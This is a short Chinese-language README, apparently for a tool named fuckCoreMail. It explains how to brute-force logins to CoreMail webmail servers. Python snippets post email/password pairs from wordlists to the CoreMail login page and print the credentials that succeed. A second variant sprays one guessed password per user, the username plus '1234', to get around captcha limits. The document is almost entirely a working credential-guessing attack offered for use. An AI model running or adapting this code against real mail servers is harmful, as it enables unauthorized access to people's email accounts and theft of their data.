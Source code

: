 # fuckCoreMail爆破说明书

*email.txt为用户的邮箱
password.txt 为用户密码字典*
```           
self.data = {'local':'zh_CN', 'uid': self.email, 'nodetect':'false', 'password': self.password,'action:login': ''}
            self.url = 'https://' + self.mailDomain + '/coremail/index.jsp?cus=1'
            self.req = self.session.post(self.url,self.data, verify=False)
            if r'cexpand' in self.req.text:
                print self.data
            time.sleep(3)

```
如果爆破成功打印self.data
**当coremail没有验证码限制的时候，可以用fuckCoreMail.py做为爆破**
可以循环爆破
```
    with open('email.txt', 'r') as f:
        with open('password.txt', 'r') as p:
            for emailUser in f.readlines():
                for emailPass in p.readlines():
                    fuckMail = ClmbFuckCoreMail('mail.xxx.com.cn', emailUser.strip(), emailPass.strip())
                    fuckMail.run()
                p.seek(0)
```


**当coremail有验证码限制的时候，可以用fuckCoreMailVerify.py做为爆破**
采用一人密码只尝试一次



```
    with open('email.txt', 'r') as f:
            for emailUser in f.readlines():
                    fuckMail = ClmbFuckCoreMail('mail.xxx.com.cn', emailUser.strip(), emailUser.strip() + '1234') //1234加在用户名后面为组合字典
                    fuckMail.run()

```